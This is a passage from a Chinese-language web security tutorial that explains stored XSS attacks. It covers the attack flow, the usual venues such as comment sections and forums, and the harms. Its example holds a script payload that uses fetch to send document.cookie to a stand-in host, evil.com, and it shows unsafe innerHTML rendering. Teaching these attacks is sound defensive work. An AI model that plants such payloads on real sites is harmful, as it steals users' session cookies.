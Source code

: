 ## 2. 常见的攻击方式

根据攻击代码的注入和执行场景，主要分为三类：

### 2.1 存储型 XSS（Persistent XSS，最危险）

#### 攻击流程

```
1. 攻击者提交恶意代码到服务器
   ↓
2. 服务器存储恶意代码（数据库）
   ↓
3. 其他用户访问包含该内容的页面
   ↓
4. 服务器返回恶意代码
   ↓
5. 浏览器执行恶意代码
```

#### 典型场景

- 📝 评论区
- 💬 论坛帖子
- 👤 用户个人简介
- 📋 留言板

#### 攻击示例

```javascript
// 攻击者在评论框输入
<script>
  fetch('https://evil.com/steal?cookie=' + document.cookie)
</script>

// 服务器存储到数据库
INSERT INTO comments (content) VALUES ('<script>fetch(...)</script>')

// 其他用户访问评论页面
// 后端返回
{ "content": "<script>fetch(...)</script>" }

// 前端渲染（所有访问此页面的用户都会中招）
commentDiv.innerHTML = data.content;
```

#### 危害特点

- ⚠️ **恶意代码长期存在**
- ⚠️ **所有访问该页面的用户都会受影响**
- ⚠️ **可能批量窃取用户数据**

### 2.2 反射型 XSS（Reflected XSS，最常见）
